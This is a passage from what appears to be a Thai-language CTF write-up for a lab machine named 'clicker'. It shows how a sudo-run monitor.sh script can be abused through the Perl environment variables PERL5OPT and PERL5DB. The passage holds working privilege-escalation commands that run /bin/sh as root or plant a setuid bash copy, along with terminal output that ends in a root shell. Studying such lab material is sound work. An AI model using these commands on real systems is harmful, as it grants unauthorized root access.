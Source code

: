 🔸 ดึงข้อมูล XML มาจากเซิร์ฟเวอร์ภายใน (หรือ mock server) แล้วเก็บไว้ในตัวแปร `data`

---

```bash
/usr/bin/xml_pp <<< $data
```

### 💥 นี่คือจุดสำคัญของช่องโหว่
🔸 `xml_pp` คือ Perl script (จากโมดูล `XML::Twig`)  
🔸 มันรันโดย **Perl interpreter**  
🔸 และ Perl จะ **อ่าน environment variables** เช่น `PERL5OPT` และ `PERL5DB` ก่อนเริ่มต้น

---
## 🧨 ช่องโหว่: Privilege Escalation via Perl Debugger

หาก attacker สามารถรัน `monitor.sh` ด้วย ENV ที่กำหนดเอง เช่น:
```bash
PERL5OPT=-d PERL5DB='BEGIN { exec "/bin/sh" }' ./monitor.sh
```

จะทำให้:
- Perl ถูกบังคับเข้าสู่โหมด debug (`-d`)
- Perl จะรัน block ที่อยู่ใน `PERL5DB` (`BEGIN { exec "/bin/sh" }`)
- **Shell จะถูกเปิดทันที** ภายใต้สิทธิ์ root
- ถึงแม้ `PERL5LIB` และ `PERLLIB` ถูก `unset` แล้ว แต่ไม่ได้ปิด `PERL5OPT` ซึ่งมีผลมากกว่าในกรณีนี้
    

```bash
jack@clicker:/var/www/clicker.htb$ sudo PERL5OPT=-d PERL5DB='system("touch /tmp/ice")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:/var/www/clicker.htb$ ls -la /tmp
total 52
drwxrwxrwt 13 root root 4096 May 16 07:33 .
drwxr-xr-x 18 root root 4096 Sep  5  2023 ..
drwxrwxrwt  2 root root 4096 May 16 05:59 .font-unix
-rw-r--r--  1 root root    0 May 16 07:33 ice
drwxrwxrwt  2 root root 4096 May 16 05:59 .ICE-unix
drwx------  3 root root 4096 May 16 06:01 systemd-private-ad499bc39d364c5684d18f3120b44d50-apache2.service-AZWnEA
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-ModemManager.service-Bz0sNY
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-logind.service-e2yERr
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-resolved.service-6sEz2d
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-timesyncd.service-dOuFep
drwxrwxrwt  2 root root 4096 May 16 05:59 .Test-unix
drwx------  2 root root 4096 May 16 05:59 vmware-root_799-4248614968
drwxrwxrwt  2 root root 4096 May 16 05:59 .X11-unix
drwxrwxrwt  2 root root 4096 May 16 05:59 .XIM-unix

## ATTACK 
jack@clicker:/var/www/clicker.htb$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/ice; chown root:root /tmp/ice; chmod 6777 /tmp/ice")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:/var/www/clicker.htb$ /tmp/ice -p
ice-5.1# whoami
root
ice-5.1# cd /root
```